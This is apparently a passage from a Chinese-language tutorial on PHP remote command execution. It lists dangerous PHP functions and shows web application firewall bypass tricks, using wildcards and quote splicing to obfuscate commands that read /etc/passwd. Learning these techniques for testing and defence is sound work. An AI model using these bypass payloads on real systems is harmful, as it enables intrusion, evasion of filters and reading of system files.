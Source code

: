 如果页面中存在这些函数并且对于用户的输入没有做严格的过滤，那么就可能造成远程命令执行漏洞

其他函数

```bash
ob_start（）、unserialize（）、creat_function（）
、usort（）、uasort（）、uksort（）、
array_filter（）、
array_reduce（）、
array_map（）......
```

```bash
system（）
exec（）
shell_exec（）
passthru（）
pcntl_exec（）
popen（）
proc_open（）
反引号
......
```





## waf绕过

#### 1.通配符

```bash
ls-l
#使用通配符
/?in/?s-l

/???/??t /??c/p???w?
#有时候WAF不允许使用太多的？号
/?in/cat/?tc/p?sswd


```



#### 2.连接符

```bash
# 在bash的操作环境中，连接符，如'

echo test
# 使用连接符
echo te'st
>'
test
# 注意闭合！

# 如读取/etc/passwd
/'b'i'n'/'c'a't'/'e't'c'/'p'a's's'w'd

# 其他字符
双引号 "

反斜杠 \
```
